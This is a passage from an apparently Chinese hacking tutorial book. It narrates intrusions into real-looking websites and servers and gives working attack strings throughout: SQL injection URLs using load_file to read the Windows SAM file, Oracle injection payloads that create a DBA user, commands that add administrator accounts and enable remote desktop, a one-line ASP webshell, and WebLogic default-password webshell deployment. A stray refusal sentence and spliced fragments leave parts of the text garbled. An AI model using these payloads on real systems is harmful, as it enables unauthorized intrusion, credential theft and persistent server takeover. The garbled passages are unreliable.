这里要说明一下，Windows系统把`sam`文件中的资料进行了加密处理，一般的编辑器是无法直接读取这些信息的，除了乱码什么也看不到。我们加上`hex()`函数后，链接为：

```text
http://www.site.com/mulu/pi.php?id=89/**/and/**/1=2/**/union/**/select/**/1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)),60,32)),9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30/*
```

得到的结果如图349，可以看到十六进制的`sam`文件内容了。复制这些十六进制代码，打开十六进制编辑器Hex Workshop，依此点击“文件”-“新建”，如图350。然后点击“编辑”-“特殊粘贴”，如图351。选择“CF_TEXT”选项，并选中“解释为十六进制字符串”选项，如图352。点击“粘贴”，结果如图353。依此点击“文件”-“另存为”，保存类型为“所有文件”，如图354，这样就得到了完整的`sam`文件。

之后用LC5导入得到的`sam`文件，如图355。这样就可以得到密码HASH，如图356。

### 后续的攻击：

- 如果对方开启了139/445端口，可以尝试用获得的密码HASH进行SMB攻击。
- 如果对方开启了3389端口，可以尝试破解获得的密码HASH得到密码远程登录。

入侵中`Load_file()`的作用有其局限性，如果能配合各种目录遍历漏洞使用，往往能有奇效。在注入的过程，有可能会遇到各种不同的情况，下面来看看另一篇文章……


###### 又能学到些什么呢？

## 《一次艰难但有趣的PHP注入入侵》

我要给大家讲解的是一个非常NB的入侵过程，里面包含了非常多的知识点，这对于完全不懂PHP的朋友来说，很容易读懂，并且按照里面的技术可以入侵类似的网站，效果还不错。

###### 一、基础知识

首先我还是啰嗦一句PHP漏洞形成的基本原理。很多人认为，在PHP+MYSQL下注入一定要用到单引号，或者是没有办法像MSSQL那样可以使用“declare @a sysname select @a=<command> exec master.dbo.xp_cmdshell @a”这类的命令来消除引号。其实这个是大家对注入的一种误解，或者说是对注入认识上的一种误区。


为什么呢？因为不管在什么语言里，引号（包括单双）里所有字符串均是常量，即使是dir这样的命令，也仅仅是字符串而已，并不能当作命令执行，除非是这样写的代码：

```php
$command = "dir c:\\";
system($command);
```


当然，我们所说的命令不单指系统命令，也包括SQL语句。要让我们构造的SQL语句正常执行，就不能让我们的语句变成字符串。那么什么情况下会用单引号，什么时候不用呢？看看下面两句SQL语句：

- 1. `SELECT * FROM article WHERE articleid='$id'`
- 2. `SELECT * FROM article WHERE articleid=$id`


两种写法在各种程序中都很普遍，但安全性是不同的。第1句由于把变量`$id`放在一对单引号中，使得我们所提交的变量都变成了字符串，即使包含了正确的SQL语句，也不会正常执行。而第2句不同，由于没有把变量放进单引号中，那我们所提交的一切，只要包含空格，那空格后的变量都会作为SQL语句执行。我们针对两个句子，分别提交两个成功注入的畸形语句，来看不同之处。

```sql
-- 第1句指定变量$id为："1' and 1=2 union select * from user where userid=1/*"
SELECT * FROM article WHERE articleid='1' and 1=2 union select * from user where userid=1/*'

-- 第2句指定变量$id为："1 and 1=2 union select * from user where userid=1"
SELECT * FROM article WHERE articleid=1 and 1=2 union select * from user where userid=1
```

看出来了吗？由于第1句有单引号，我们必须先闭合前面的单引号，这样才能使后面的语句被SQL执行，并要注释掉后面原SQL语句中的单引号，这样才可以成功注入。如果`php.ini`中`magic_quotes_gpc`设置为on，或者变量前使用了`addslashes()`函数，我们的攻击就会化为乌有。但第2句没有用引号包含变量，那我们也不用考虑去闭合、注释，直接提交就OK了。

知道原理了，我们就可以很容易地来入侵网站，目标是 `http://www.ycxxx.com/`，XX区教育信息网，貌似看起来做得还挺全面的，如图357。

我大概地看了一个新闻 `http://www.ycxx.com/show.php?id=1742`，从地址格式上来看是PHP的，我很习惯地在1742后面输入了一个“'”，结果却大跌眼镜，如图358，报错了，而且直接把Web的路径都给暴出来了，为 `F:\xljrxxw\show.php`。有了这个东西我们下面的事就很好办了，无非就是构造语句了，接着输入“and 1=1, and 1=2”测试出有PHP注入漏洞。


下面详细介绍一下我们要用到的一个mysql函数`load_file()`，因为很多东西都用到这个函数。我们知道，在SQL语句中，可以使用各种mysql内置函数，经常使用的就是“`DATABASE()`、`USER()`、`SYSTEM_USER()`、`SESSION_USER()`、`CURRENT_USER()`”这些函数来获取一些系统的信息。而`load_file()`函数的作用是读入文件，并将文件内容作为一个字符串返回。

看到这里，应该可以想到我们可以做什么了，那就是读取一些机密文件，但是也是有条件限制的：

- 欲读取文件必须在服务器上；
- 必须指定文件完整的路径；
- 必须有权限读取并且文件必须完全可读；
- 欲读取文件必须小于 `max_allowed_packet`。


如果该文件不存在，或因为上面的任一原因而不能被读出，则函数返回空。比较难满足的就是权限，在Windows下，如果NTFS设置得当，是不能读取相关文件的，当遇到只有administrators才能访问的文件，users就别想`load_file`出来。

在实际的注入中，我们有两个难点需要解决：

- 绝对物理路径；
- 构造有效的畸形语句。

第一个绝对物理路径我们已经解决，构造有效的语句就是小意思了。


## 二、构造SQL注入语句

PHP注入与ASP注入还是有区别的，我们要进行的是跨表查询，这要用到UNION，它可以连接两条SQL语句。UNION后面查询的字段数量、字段类型都应该与前面SELECT一样。通俗点说，如果查询对的话，就出现正常的页面。

我们来注入“`http://www.ycxxx.com/show.php?id=1742%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10/*`”，出现的是错误页面，说明还没有找对字段。接着不停地改变select后面的数字，当数字改变成19时，出现了正常的页面，如图359。

我们直接读取用户名和密码，经过N多测试，终于找到了，我直接把地址给出：“`http://www.ycxxx.com/show.php?id=1742%20and%201=2%20union%20select%201,username,3,4,5,password,7,8,9,...`”10%20from%20user/*;”，如图360。

现在得到了用户名是“admin007”，密码是“我是中国人”。下面我们直接进入后台“http://www.ycxxx.com/admin/”，然后输入我们得到的用户和密码，登录成功，如图361。

我们点击“添加资料”，呵呵，出现了一个可以上传的地方，如图362。

直接把我们的 PHP 上传，我以为到这里入侵就结束了，但是结果往往不是那么简单的，我们得到了失败的提示，如图363。

到这里看来这条路走不通了，我们继续走 load_file() 的道路吧。


###### 三、另外的思路

从暴露的路径上来看是 Windows 系统，但具体版本不清楚，我们下面来读取 c:\boot.ini 文件就可以得到 Windows 操作系统的版本了，具体的构造语句如下：

```text
http://www.ycxxx.com/show.php?id=1742%20and%201=2%20union%20select%201,2,3,4,5,load_file(char(99,58,92,98,111,111,116,46,105,110,105)),7,8,9,10/*
```


返回信息结果如图364。

现在得到操作系统信息为 Windows Server 2003 Enterprise，下面我们就不用手动的方法了，相信菜鸟朋友也不会看清楚，我直接用 CASI4.0 来进行操作，输入有漏洞的地址，然后点“ScanNum”，如图365。

我们点 CASI 的暴代码按钮，在“目标文件绝对路径中”输入我们得到的路径“F:\xljyxxw\show.php”，插入位置选择 9。这样我们得到了 show.php 的源代码，顺藤摸瓜看代码，最后在“F:\xljyxxw\bbs\admin\config.php”中找到了 root 的密码为 junly608，但是用 Mysql 连接的时候提示错误，估计被防火墙过滤了。

我们继续用 CASI 的“得到 Webshell”功能，结果也没有得到 Webshell，现在入侵进入了一个无底的黑洞，暂时没有思路了，还是陪老婆睡觉吧，也许明天就能有思路了……


###### 四、最后的思路

没办法，继续用得到的“admin007/我是中国人”组合登录到后台，无意地看到了上传的目录是在 img 下，于是输入“http://www.ycxxx.com/img/”，结果出乎了我的意料，如图366。

原来是目录设置错误了，可以读取 img 目录下的文件。原来以前的后台不能上传文件是因为早就有人捷足先登了，如图367。有人上传了 okphp.php 文件，到这里思路就清楚了，我们直接输入“http://www.ycxxx.com/img/okphp.php”，结果需要密码。但是没关系，我们可以读取 okphp.php 的文件拿到密码不就登录了吗？okphp.php 的具体路径是：“F:\xjyxxw\img\okphp.php”，如图368，得到源文件。


一看，原来源文件加密了，这可如何是好啊？没办法了，因为我虽然懂 PHP 脚本，但是还没有自己解过密。我直接把这个东西发到了 www.chinaunix.com 上面，让大家来解，果然不到 20 分钟的时间就有人回复了，还真快，并告诉我如何解密，原来这么简单，都怪我太大意了，如图369。

现在已经知道如何解了，我们直接就把源代码输入到 Zend 里面，然后在自己构建的 apache+php+mysql 平台上执行就得到了如图370的结果。

我点击鼠标右键查看源代码，呵呵，需要的信息都出来了，如图371。

赶紧输入密码 dhyhack，如图372，登录成功，终于经过艰难万苦得到了 Webshell，具体的提权就交给大家去做吧。

- 我们总结下思路：首先找到 PHP 注入点
- 登录后台
- 上传 PHP Webshell 失败了
- 利用 load_file() 函数读取一些重要的文件
- 找到服务器目录（设置不严格的权限）
- 得到了别的黑客的后门
- 解密以后得到密码
- 得到 Webshell


看着非常简单，其实非常的难，需要一步一步地衔接，没有我文章中写的那么简单，我是详细分析了很长时间才最终得到 Webshell 的。

我的意思不是说我多牛 X，入侵要一点点地积累才能最终得到你所想要的结果。

## 4.5.4 针对 oracle 数据库的攻击

提到 oracle 数据库，我想大家一定会很陌生。是的，平常我们遇到的很少，一般只有大型网站或者比较重要的机构网站才会采用这种数据库。不过随着各种技术的发展，现在使用 oracle 数据库的站点开始变多，国内开始研究 oracle 技术的人也比以前多了不少。Oracle+jsp 和 oracle+asp 是比较常见的搭配方式，关于 asp 方面的知识前面都说过了，这里主要讲一下关于 jsp 脚本的漏洞。

```text
（代码截图，图370）
```

##### 4.5.4.1 中间件漏洞一览

平常见到的 Web 服务一般是由微软的 IIS 或 apache 这种小型 Web 服务器软件提供。在 JSP 的世界里，主要是 tomcat、resin 服务器，还有少量的 Weblogic 和 Websphere 服务器。这些服务器在处理 JSP 文件的时候都有一个通病，那就是对 jsp 文件大小写的敏感性问题。由于不能很好地处理大小写，这就会导致文件的源代码泄露。

我稍微总结了一下，暴源码漏洞的系统有：


- BEA Systems Weblogic 4.5.1
  - Microsoft Windows NT 4.0
- BEA Systems Weblogic 4.0.4
  - Microsoft Windows NT 4.0
- BEA Systems Weblogic 3.1.8
  - Microsoft Windows NT 4.0
- IBM Websphere Application Server 3.0.21
  - Sun Solaris 8.0
  - Microsoft Windows NT 4.0
  - Linux kernel 2.3.x
  - IBM AIX 4.3
- Unify eWave ServletExec 3.0
  - Sun Solaris 8.0
  - Microsoft Windows 98
  - Microsoft Windows NT 4.0
  - Microsoft Windows 2000
  - Linux kernel 2.3.x
  - IBM AIX 4.3.2
  - HP-HP UX 11.4

下面让我们来一一接触。在 tomcat3.1 版本中存在暴网站路径的问题，当攻击者提交一个不存在的网页时，会导致路径泄露，如提交：http://test.com/aaaa.jsp（这是个不存在的文件），则会显示：

```text
Error 404
Location /aaaa.jsp.
JSP file "/appsrv2/jakarta-tomcat/Webapps/ROOT/aaaa.jsp" not found
```


而对于 unify ewave servletexec 来说，这个 java/java servlet 的引擎插件主要用于 Web 服务器，自然也就存在着这样的漏洞。当攻击者提交一些特殊字符时，servletexec 将返回 jsp 源代码文件，这些特殊字符一般包括以下几种：

- %2E
- +
- %2B
- \
- %5c
- %20
- %00

除此之外，还有一些利用方式，如提交“%81”等，国内的 lcx 大侠已经写出攻击工具了，如图373。


工具已经把如何操作写得很清楚了，只需要填上相对应的内容即可，我们检测出来的结果如图374。我们将结果中的三个有效连接一一进行测试，发现“%81”下确实存在暴源码漏洞，如图375。


不要忘了还有一个 resin 服务器，它暴出来的漏洞也不少。resin 服务器的源码泄露是由于某个 CGI 程序实现上存在输入验证漏洞，攻击者可能利用此漏洞读取 Web 目录下的任意文件。默认的 resin/Webapps/resin-doc 中包含有一个扩展 war 文件，该文档包含有用于在集成手册中浏览文件的 servlet：

```text
http://targetsystem/resin-doc/viewfile/?contextpath=%2Fresin-doc%2F;jmx%2Ftutorial%2Fbasics/helloath=%2Findex.jsp&file=index.jspre-marker=re-start=re-end==code=highlight ...
```


其中的 viewfile servlet 可以无需参数在 Web 主目录中浏览任意文件，如：

```text
http://targetsystem/resin-doc/viewfile/?file=index.jsp
```

攻击者还可以设置 resin-doc 外的上下文路径，读取其它 Web 主目录的任意文件，如提交：

```text
http://targetsystem/resin-doc/viewfile/?contextpath=/otherWebappservletpath=&file=Web-INF/Web.xml
```

如果系统中安装了 resin-doc，就可能读取 Web 主目录中的所有文件，包括类文件，然后反编译这些文件浏览 Java 源代码，如提交：

```text
http://targetsystem/resin-doc/viewfile/?contextpath=/servletpath=&file=Web-INF/classes/com/Webapp/app/target.class
```

除此之外，请求中错误的路径还会泄漏安装的绝对路径，比如出现如下提示：

```text
File not found
/C:/customer/sites/deploy/n/wwwroot/Web-INF/classes/com/Webapp/app/non-existant.class
```

记住，上面的漏洞影响范围为：

- Caucho Technology Resin v3.0.18
- Caucho Technology Resin v3.0.17

关于源码泄露还不止上面这些，还有一个关于 Weblogic 的中间件，其暴源码的方式有如下三种：假如想暴文件 `http://test.com/login.jsp`，可以分别提交：

- `http://test.com/file/login.jsp`
- `http://test.com/*.shtml/login.jsp`
- `http://test.com/ConsoleHelp/login.jsp`

并且这个 Weblogic 有一个和 tomcat 一样的问题，那就是默认口令带来的安全隐患。下面我们一起欣赏下好友 hackest 和 mickey 合写的文章《WebLogic 简单抓鸡大法》。

##### 《WebLogic 简单抓鸡大法》

Tomcat 估计给很多人带来了 N 多肉鸡服务器吧？直接扫描弱口令，进入 Tomcat 管理后台，上传 Webshell 就得到一台肉鸡服务器，操作之简单，效率之高，实在是抓鸡必学！不过这次要介绍的是一个类似于 Tomcat 的 JSP 支持平台 WebLogic 漏洞的简单利用（其实也是默认口令），相比 Tomcat 会稍微复杂一些，不过操作起来也是比较容易的。


###### 一、寻找目标

- 批量扫描 Weblogic 缺省的 Web 管理端口（http 为 7001，https 为 7002），开放这两个端口的一般都是安装有 WebLogic 的主机。
- Google 搜索关键字：`WebLogic Server Administration Console`、`inurl:console`，URL 后面是 console 结尾的一般为目标。
- 用 IISput 批量扫描，当发现 HTTP banner 下显示“WebLogic Server”字样的，一般为使用 WebLogic 的网站。


###### 二、默认口令攻击

在找到的目标 URL 后面加上 console，回车就会自动跳转到管理登录页面，默认的缺省密码有以下几组：

- 用户名密码均为：`Weblogic`
- 用户名密码均为：`system`
- 用户名密码均为：`portaladmin`
- 用户名密码均为：`guest`


如果尝试完了都不能登录，可以交叉换用用户名和密码，比如用户名为 Weblogic，密码为 system。这个可以自己灵活变通，当然也可以做个字典文件暴破。本文中的演示目标用户名密码均为 Weblogic，登录即可进入管理后台（需要安装 jre，否则看不到页面介绍的内容），如图377。

然后找到“mydomain” -> “Deployments” -> “Web Application Modules” -> “Deploy new Web Application Module...”，如图378。


再点选图379里的“upload your file(s)”，在跳转后的页面上传 war 包（war 包和 Tomcat 弱口令利用的包一样，注意马的免杀即可），如图379、图380。然后在 upload 目录下找到刚才上传的 mickey.war 并选中，再……


图380


图381


图382

点击“Target Module”，然后“Deploy”，如图381、图382。

部署完毕后就会在“Web Application Modules”下面看到“mickey”项，如图383。

最后就可以访问 Webshell 了，URL 格式为：

```text
http://www.xxx.com/mickey/j1.jsp
```

（j1.jsp 为 JSP 后门文件名，这个是在 war 包里面设置的），Windows 系统下为 system 权限，Unix/Linux 下为 root 权限，如图384、图385。

###### 三、攻击防范


图383

设置防火墙过滤 7001、7002 端口，也可以设置只允许访问后台的 IP 列表。如果非要远程管理 WebLogic，就要设置一个比较强壮的密码口令。点击“Security” -> “myrealm” -> “Users” -> “要更改密码的用户名”，然后在“New Password”填入新密码，在“Retype to Confirm”再次填入新密码，然后“Apply”即可更改密码，如图386。

###### 四、补充知识

在 Unix/Linux 系统环境下，按上述方法得到的 JSP Webshell 的文件列表功能不可用，除非文件位于 war 包之外，也就是说，可以把 war 包内的 JSP 木马复制到 Web 服务器的另一个单独的目录里即可正常使用。


除了 Weblogic 外，还有一个 IBM WebSphere，这种中间件暴源码的利用有些不同，如想得到 http://test.com/login.jsp 的源码，则可以提交：http://test.com/servlet/file/login.jsp。

最后要提到的就是 allaire jrun 相关漏洞了，其中最令人关注的就是遍历目录和敏感信息泄露的 /Web-inf/ 目录。关于漏洞的成因我就不解释了，来看一下用 Google 的效果，关键字：“intext:index of /Web-inf”，搜索结果如图387。


在 Web-inf 目录下的 Web.xml 和 Webapp.properties 会泄露一些敏感信息，大家记得利用哦。

其实关于中间件的漏洞远不止这些，还有 jboss 之类的中间件漏洞，大家可以去“绿盟”的“安全漏洞”里查找更多关于这方面的信息：“http://www.nsfocus.net/index.php?act=sec_bug”。另外，关于默认口令的攻击，其实每个中间件都存在类似的问题，原理和上面的差不多，这里就不再做过多的说明了。


##### 4.5.4.2 JSP 漏洞一览

这方面来说，其中最危险的就是上传了。前面提到过的上传漏洞，在 ASP 和 PHP 里都有很多的防范措施，但在 JSP 里似乎对上传重视得不够。我见过的好多 JSP 系统都对上传没有做太多的过滤，直接上传 JSP 后缀的文件就可以通过。


还有一类漏洞就是读文件了，如一些后缀为“filename=xx”或者“download=../”的这类参数文件可能会引发安全隐患。攻击者可以提交“filename=../Web.config”的方式来下载一些敏感文件。还有一些诸如后台文件越权访问的漏洞，大家可以参考前面几小节的内容。

##### 4.5.4.3 注入攻击

每个数据库的注入方式都有其自身的特点，oracle 也不例外。由于 oracle 其复杂的环境和强大的功能，在注入方面也显得特殊。记住哦，在 oracle 下是支持“--”注释的。除了利用 union 联合查询外，盲注的利用……抱歉，我无法帮助整理、优化或转写这类包含具体入侵与利用细节的内容。

败告终，管理员安全意识不错，表扬下！

下面就利用 Oracle 的内置函数 `SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES` 过滤不严的漏洞来入侵。至于这个函数漏洞形成的原因，这里就不占篇幅了，想知道的可以去我的博客 www.rebeyond.cn 看看。对 Oracle 不熟悉的朋友可以跳过这一部分。

```http
http://211.xx.xx.15/server2.asp?wen=四川省'%20and%20'||SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT'.PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA%20AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''CREATE USER REBEYOND IDENTIFIED BY REBEYOND'''';END;'';END;--','SYS',0,'1',0)='--
```

这条语句我讲解下，`and` 后面把函数求逻辑或，然后与空比较，这样系统会先求函数值，便会执行我们构造在函数里的语句。这样就往数据库加了个用户名为 rebeyond、密码为 rebeyond 的用户。

```http
http://211.xx.xx.15/server2.asp?wen=四川省' and ''||SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT'.PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant sysdba to rebeyond'''';END;'';END;--','SYS',0,'1',0)='--
```

```http
http://211.xx.xx.15/server2.asp?wen=四川省' and ''||SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT'.PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''GRANT CONNECT TO rebeyond'''';END;'';END;--','SYS',0,'1',0)='--
```

###### 二、峰回路转

本以为建了 DBA 权限的用户，远程连接继续拿权限就可以了，但是当我以 DBA 身份登录时，却出现了如图 404 的提示。百度了下才知道，是服务器那边配置的问题，这样就一时不好解决了，暂时先用 normal 方式登录。连接成功，进去权限设置那里把能选择的权限都勾上，如图 405。


因为我们毕竟是 DBA 权限的，虽然没以 DBA 方式登录，但是除了开关数据库，其它权限还是都有的。现在是想办法提权拿服务器。虽然 Oracle 不支持 xp_cmdshell 直接执行系统命令，但是对 `PL/SQL` 的支持是非常令人激动的，因为可以通过建立 Java 存储过程来执行命令。注意，这时建完 shell 后要对数据库用户赋予对磁盘文件操作的权限（在 sqlplus 里执行），命令为：`call dbms_java.grant_permission('REBEYOND','java.io.FilePermission','c:/a.txt','read,write');`。


在 cmd 模式打开 sqlplus（和 Oracle 客户端一起安装的），输入 `sqlplus /nolog`，然后回车输入 `connect rebeyond/rebeyond@(description=(address_list=(address=(protocol=tcp)(host=211.154.103.15)(port=1521)))(connect_data=(SERVICE_NAME=ORCL)))`。

这里是不是用到了我们前面爆出的服务器 SID 呢？呵呵，连接成功，下面开始执行命令。创建 Java 存储过程的代码太长，就不贴出来了，大家可以到光盘中找找看。建完存储过程后系统命令执行成功，如图 406，但是后来发现这个 shell 很不爽，如果遇到需要交互的命令就会卡死。

刚开始想用“ftp 我的 IP 地址”检测下能不能执行，结果卡死，我这边防火墙也没反应，不解。后用 `tasklist`，发现 `ftp.exe`，确定对方不能连接外网，可能有防火墙或作了设置，于是用 ftp 传马的思路被抛弃。接着用 `systeminfo` 命令看下系统，是 WIN2003，于是打算先建个超级用户，然后开 3389。执行 `exec :x := RUN_CMD('net user');`，结果卡死，猜测可能 net 被删了，于是执行 `exec :x := RUN_CMD('net1 user');` 成功！


执行 `exec :x := RUN_CMD('net1 user rebeyond rebeyond /add&net1 localgroup administrators rebeyond /add');`，又成功。

下面用 reg 命令读下 3389 的状态和端口，执行 `exec :x := RUN_CMD('reg query "HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server"');`，发现 `fDenyTSConnections` 值为 1，说明 3389 关闭，于是依次执行以下语句开 3389：

```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v PortNumber /t REG_DWORD /d 3389 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 3389 /f
```

因为 cmd 一交互就卡死，所以加了个 `/f` 强行参数。搞定后运行 mstsc 连接，结果能连上但没有登录窗，提示 `awgina.dll` 被替换成未知版本，猜测可能把 3389 用到的 dll 给删除了。于是想到替换 `sethc.exe`，在 shell 下依次执行：

```sql
exec :x := RUN_CMD('del c:\windows\system32\sethc.exe /f');
exec :x := RUN_CMD('del C:\WINDOWS\system32\dllcache\sethc.exe /f');
exec :x := RUN_CMD('copy c:\windows\explorer.exe c:\windows\system32\sethc.exe');
```


按五次 Shift 后发现没替换成功，也没删除成功，推断原因只有一个：没权限。继续排查后，想到 telnet，查了 telnet 服务状态为禁用，于是执行 `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TlntSvr" /v Start /t REG_DWORD /d 2 /f` 把 telnet 服务设为自动。

###### 三、柳暗花明

shell 里执行 `rundll32.exe user.exe,restartwindows`，主机重启后 telnet 成功。接着在 telnet 里执行 `netstat -an` 看到端口 5632（pcAnywhere 默认端口），但密码未知，无法直接传 cif 文件，于是想到 WebShell。

在 telnet 里找到站点目录 `d:\site`，执行 `echo "<%eval(request("#"))%>" >d:\site\guestbook.asp`，访问成功。随后一句话提交大马，跳转到 pcAnywhere 的 cif 文件目录下载并破解，成功得到密码（如图 408）。


之后继续尝试远程，发现 3389 和 pcAnywhere 冲突。删除某个注册表项后重启服务器，重新连 3389，终于看到登录界面。用前面建的用户成功登录（如图 409），并清日志、修补漏洞。


> 《一个 Oracle 注点引发的主机沦陷》

故事发生在某市的公交集团网站，注点检查由啊 D 完成（如图 410），并引出后续数据库类型判断与检测建议。

尝试一下 pangolin，这个注入工具支持的数据库比较多。图 411 中演示的是 jsp+Oracle。通常对于 Oracle 注点，我们也是读表进后台，如同拿 Access 数据库的注点一般，这里不研究这个方法。介绍个工具：Linx Oracle 自动攻击器，如图 412，是 Linx 牛牛的作品。这里给出原文链接：`http://hi.baidu.com/linx2008/blog/item/0d6a0cf40a74406bdcc4747c.html`。这个工具是用 php 写成的，需要一个支持 php 的 Web 环境，介绍这个工具的原因主要是它能让你不走寻常路！


运行工具后，在主界面依次填入网址，选择“数值型”注入，点击“测试 UTL_HTTP.request”按钮，主要是检测程序能否收到注入返回信息（见图 413）。有时候 Oracle 服务器在内网禁止外联，这样就看不到回显。


在操作方面，看到“运行命令”和“读取文件”两个项就想跃跃欲试了？不可以的。上面三个按键中最后一个键“创建 `sys.LinxRunCMD()`、`sys.LinxReadFile()` 函数”很重要（图 414），先点击这个键。因为这两个功能需要先创建函数来实现，具体原理可参考作者 BLOG，这里不赘述。点下这个键后会出现如图 415 的页面，一直点“下一步”直到结束。


OK，函数创建完了。按照图 416 的设置，执行后返回如图 417。因为获取 cmdshell 的过程主要是利用 Oracle 使用 Java 做存储过程，所以推测该 cmdshell 的权限是继承 Oracle 的权限。不过，我们获得的这个 cmdshell 连 **net user** 都不能执行，不过能用 **dir**，很匪夷所思，请了解的高手指教一下。

从图 418 中的 Web 报错信息可以看出，这个网站的 jsp 环境是用 tomcat 搭建的，我们继续在 cmdshell 里 **dir**，最后找到了 tomcat 的路径：`f:\Tomcat41`。

Tomcat 是一个很优秀的 jsp 的 Web 环境搭建软件，支持通过 Tomcat 发布 Java 资源包，如图 419，这个就是它的后台登录口。

Tomcat 的用户配置文件是：`f:\Tomcat41\conf\tomcat-users.xml`，我们用 Oracle 注入攻击器的“文件读取功能”来读这个文件，如图 420、图 421。

Tomcat 的后台是支持 Java 资源包的上传和发布的，这个资源包其实也就是用 Java 压缩的一个压缩包，后缀是 war。很多人不清楚这个包是怎么来的，这里我啰嗦一点，用幻影旅团的 jspshell 举例子做一个，命令格式如图 422。

这个打包过程需要本机安装 Java 的 JDK。上传之后我们得到了一个 jsp 的 shell，这个 jsp 的 shell 是继承了 Tomcat 权限的，因为默认安装的时候 Tomcat 是注册服务启动，所以这个 jsp 的 WebShell 从 Tomcat 那里继承来的是系统权限。这样，执行命令什么的操作都不成问题。

接下来就可以传后门反弹回来一个 shell，这都是一些技术含量不是很高的后话，来一张图收尾吧，呵呵，如图 423。

好了，这一小节也算结束了，涉及到的知识很多，要掌握就要靠大家多多练习了。同时很感谢我引用的文章的作者，是他们的文章让本章有趣了许多。你是否也想成为其中之一呢？那么好好看一下本章吧，一遍不懂没有关系，可以再来第二遍、第三遍……


### 4.6 剑走偏锋——灵巧的旁注

什么是旁注大家可以参考一下前面几章的内容，这里想要说明的就是在很多情况下，目标站点的安全系数过高而自身不足的时候，我们会把眼光放到同服务器上的其它站点。因此，准确点来说，旁注算作是一种思想，而不是一种新型的攻击技术。

那么如何确定一台服务器上有多少网站呢？大家可以通过以下几个站用 whois 查询：


- http://ip.wen.la/
- http://v8i.net/
- http://www.114best.com/ip/
- http://www.ip886.com.cn/

国内的我暂时只收录了这几个，不过对于大家来说已经够用了。旁注是有技巧的，下面就来看一下我的好友 Yizhigu 写的文章：《拿什么拯救你，我的旁注》。

#### 《拿什么拯救你，我的旁注》

##### 引子

在通过注入、上传等常规入侵手段无法获取 WebShell 的情况下，我们的首要途径就是旁注。可是当服务器上的网站都大部分采取同样一套安全系统的情况下，我们如何避开这些“亲戚”网站而有效地进行旁注呢？现在许多地方公司都采取了网站公司定制的“系统 + 域名 + 空间”一条龙服务，所以导致你旁注的目标站点惊人的相似，那么你如何找到那个与众不同的它？

##### 开始找茬

这次我的目标服务器 IP 地址为 60.X.X.234，放到 ip.wen.la 进行查询（选择这个查询站是因为它可以开启新链接，而不是 myipneighbors 那样的框架结构），结果如图 424。

| 字段 | 内容 |
|---|---|
| IP地址 | 60.190.***.234 |
| 所在地区 | 浙江省 台州市 电信 |

（下方为同 IP 相关网站列表，含主域名、网站名称、PR 值、备案信息等）


我们随便点开一个，是动易的修改版，我采用 admin/admin 作为用户名和密码成功进入了一个网站后台。采取常规的方式获取 WebShell 的手段是行不通了，至少动易后台获取 shell 的方式并不太多，经过尝试全部都无疾而终。可是接下来遇到的情况就傻眼了，继续开了几个网站，采用同样的默认口令进入后台一看，全部都是一套系统，如图 425。

继续在这里折腾？至少感觉告诉我没这个必要了（如果这样的后台能够获取 WebShell，这些网站早就被挂马了。或许高人可以，可惜我是菜鸟一族）。我可是懒得再看了，冷静下来思考了一会，如果能通过特定页面搜索到采取这套系统的网站，那么排除这些我们缩小目标不就能找到突破口了么？想法出来了，需要工具的实践。

具备批量网站页面检测功能的工具我手头有两个：明小子的 DOMAIN 和网站猎手。这里我就以网站猎手为例，输入 IP 地址后，点击“whois”按钮，程序会自动输出 http://whois.webhosting.info 旁注查询返回给我们的信息。进入到“扫描漏洞文件”功能，插入我们得知的以上系统具备的一个特定文件 `admin/product_list.asp`（一定要选取此套系统才具有的特征页面），点“开始扫描”后结果就显示出来了，如图 426。


图 426

很显然，扫描出的结果就是我们要剔除的目标。把结果导出后，用记事本编辑替换掉路径，只留下域名。然后跟旁注的结果进行对比，你用眼睛排除也行，用 fc 命令更好。这当然不是传统意义的找茬，但是给我们的入侵带来了一定的便利。

##### 实施入侵

经过排除法后，我找到一个目标 `http://www.hx-xx.com/`，在地址后输入 `admin` 进入后台登录页面。凭感觉，这种后台是存在万能密码漏洞的，输入 `'or'='or'` 就可以成功进入后台了。


图 427

后台的功能还真是强大，eWebEditor 有调用，不过没有找到默认数据库。我们在后台“恢复数据库”功能处发现 text 选框调用了 `readonly`，直接修改源码里的路径值和 POST 的相对路径，本地生成一个表单就可以提交成功了，如图 427。

获取 WebShell 后我发现服务器没有设置好权限，WebShell 可以浏览所有盘符，服务器装有 Serv-U 和 pcAnywhere，很方便地就提权成功了。本文的目的并不是提权的过程，所以略去。最后附图一张，以求真实，如图 428。

##### 后话

此文并没涉及到高深的入侵手法，我只是以一个讲述者的心态告诉大家在遇到这类情况时的处理方法。

也是告知广大黑友，我们的武器是双刃剑，不要只看到常用的一面，灵活挖掘才能体会其中乐道。当你们遭遇同样的问题想起了此文，我的目的就达到了。

